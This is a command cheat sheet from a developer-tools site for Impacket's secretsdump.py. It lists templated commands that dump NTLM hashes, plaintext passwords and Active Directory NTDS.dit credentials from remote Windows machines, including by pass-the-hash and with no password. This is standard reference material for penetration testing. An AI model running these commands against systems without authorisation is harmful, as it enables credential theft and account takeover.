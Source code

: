 ```yaml
---
title: "Dump NTLM Hashes - Secretsdump.py Windows Credentials | Online Free DevTools by Hexmos"
name: secretsdump.py
path: /freedevtools/tldr/common/secretsdump.py
canonical: "https://hexmos.com/freedevtools/tldr/common/secretsdump.py/"
description: "Dump NTLM hashes with secretsdump.py, extracting Windows credentials and Active Directory information. Free online tool, no registration required for credential recovery."
category: common
keywords:
- NTLM Hash Dumper
- Windows Credential Extraction
- Active Directory Dump
- SAM Database Extraction
- Pass-the-Hash Attack
- Windows Password Recovery
- Domain Credential Dump
- Credential Dumping Impacket
- secretsdump.py Usage
- Windows Security Tool
features:
- Extracts NTLM hashes from Windows systems remotely
- Dumps plaintext passwords from domain controllers
- Retrieves credentials from Active Directory's NTDS.dit file
- Extracts hashes from local SAM databases
- Supports pass-the-hash authentication
ogImage: "https://hexmos.com/freedevtools/t/tool-banners/json-utilities-banner.png"
twitterImage: "https://hexmos.com/freedevtools/t/tool-banners/json-utilities-banner.png"
---
```


# secretsdump.py

> Dump NTLM hashes, plaintext passwords, and domain credentials from remote Windows systems.
> Part of the Impacket suite.
> More information: <https://github.com/fortra/impacket>.

- Dump credentials from a Windows machine using a username and password:

`secretsdump.py {{domain}}/{{username}}:{{password}}@{{target}}`

- Dump hashes from a machine using pass-the-hash authentication:

`secretsdump.py -hashes {{LM_Hash}}:{{NT_Hash}} {{domain}}/{{username}}@{{target}}`

- Dump credentials from Active Directory's NTDS.dit file:

`secretsdump.py -just-dc {{domain}}/{{username}}:{{password}}@{{target}}`

- Extract credentials from a local SAM database using registry hives:

`secretsdump.py -sam {{path/to/SAM}} -system {{path/to/SYSTEM}}`

- Dump hashes from a machine without providing a password (if a valid authentication session exists, e.g. via Kerberos or NTLM SSO):

`secretsdump.py -no-pass {{domain}}/{{username}}@{{target}}`
